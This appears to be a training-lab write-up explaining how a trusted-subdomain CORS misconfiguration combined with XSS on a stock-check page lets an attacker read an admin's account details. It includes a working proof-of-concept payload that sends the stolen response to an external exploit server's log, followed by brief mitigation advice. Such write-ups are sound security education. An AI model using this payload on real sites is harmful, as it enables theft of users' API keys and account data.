 # CORS

## LAB 00: ****CORS vulnerability with trusted insecure protocols****

### Overall

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled.png)

Observe that after login the blog, navigate to your profile, beside from your account plain html, account details is receiving via AJAX in JSON format. 

Noted that in the response their are ACAC which indicate that CORS is supporting. And then if we add origin field in our request, the response will reflect the origin field in the response, and only available to same domain only.

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled%201.png)

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled%202.png)

But not the difference domain

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled%203.png)

### Step to reproduce

From here, we want to capture the admin API key which mean we have to find a way that automate run the script over admin panel and send the key back to us.

Go around the blog, we may find a XSS in the product page, check stock function running on subdomain stock.[ lab domain] is vulnerable to XSS, which open a way for us to continue the exploit.

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled%204.png)

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled%205.png)

From here, we will try to perform the CORS attack target to the DOM of the vulnerable page and implement XSS to conduct the CORS attack.

Refer to : 

[CORS - Misconfigurations & Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass#from-xss-inside-a-subdomain)

POC

```jsx
<script>
    document.location="http://stock.[ID].web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://[ID].web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-[ID].exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

So, in this case, we will use web-exploit’s log to store the return response from the vulnerable blog that we already push the XSS payload to, the return value will in JSON like we already have an overview above.

![Untitled](CORS%200ace2a07dd5c44448ebc215f283ac5ee/Untitled%206.png)

To the payload, it perform an GET method with point to the /accountDetails page of the admin, because this is in XSS vulnerable context, when the admin visit the stock subdomain, it will perform the left code that will append the content of the response of admin’s /accountDetails to the exploit server’s log at key parameter then send it to the exploit server.

### Mitigation

Solve the XSS vulnerable is extremely recommended.

Specified the allowed origins

Only trusted sites

No null whitelist 

### Appendix

[What are CORS Attacks and How can you Prevent them?](https://www.comparitech.com/blog/information-security/cors-attacks-prevent/)

[XMLHttpRequest - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)

[CORS - Misconfigurations & Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass#from-xss-inside-a-subdomain)

[https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html#cors](https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html#cors)